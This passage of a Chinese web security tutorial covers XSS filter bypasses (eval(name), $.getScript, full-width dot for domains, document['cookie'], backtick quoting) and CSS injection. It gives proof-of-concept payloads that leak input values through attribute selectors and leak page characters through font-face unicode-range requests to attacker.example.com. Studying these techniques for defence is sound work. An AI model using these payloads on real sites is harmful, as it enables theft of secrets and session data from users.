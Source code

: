 - 对标签属性值转码

- 产生事件

- css跨站解析

- - 长度限制bypass

    `eval(name)``eval(hash)``import``$.getScript``$.get`

- - `.`

    使用 `。` 绕过IP/域名`document['cookie']` 绕过属性取值

- 过滤引号用 `` ` `` 绕过

# 3.2.8. 技巧

## 3.2.8.1. CSS 注入

### 3.2.8.1.1. 基本介绍

CSS注入最早开始于利用CSS中的 `expression()` `url()` `regex()` 等函数或特性来引入外部的恶意代码，但是随着浏览器的发展，这种方式被逐渐禁用，与此同时，出现了一些新的攻击方式。

### 3.2.8.1.2. CSS selectors

```
<style>
    #form2 input[value^='a'] { background-image: url(http://localhost/log.php/a); }
    #form2 input[value^='b'] { background-image: url(http://localhost/log.php/b); }
    #form2 input[value^='c'] { background-image: url(http://localhost/log.php/c); }
    [...]
</style>
<form action="http://example.com" id="form2">
    <input type="text" id="secret" name="secret" value="abc">
</form>
```

上图是利用CSS selectors完成攻击的一个示例

### 3.2.8.1.3. Abusing Unicode Range

当可以插入CSS的时候，可以使用 `font-face` 配合 `unicode-range` 获取目标网页对应字符集。PoC如下

```
<style>
@font-face{
 font-family:poc;
 src: url(http://attacker.example.com/?A); /* fetched */
 unicode-range:U+0041;
}
@font-face{
 font-family:poc;
 src: url(http://attacker.example.com/?B); /* fetched too */
 unicode-range:U+0042;
}
@font-face{
 font-family:poc;
 src: url(http://attacker.example.com/?C); /* not fetched */
 unicode-range:U+0043;
}
#sensitive-information{
 font-family:poc;
}
</style>
<p id="sensitive-information">AB</p>
```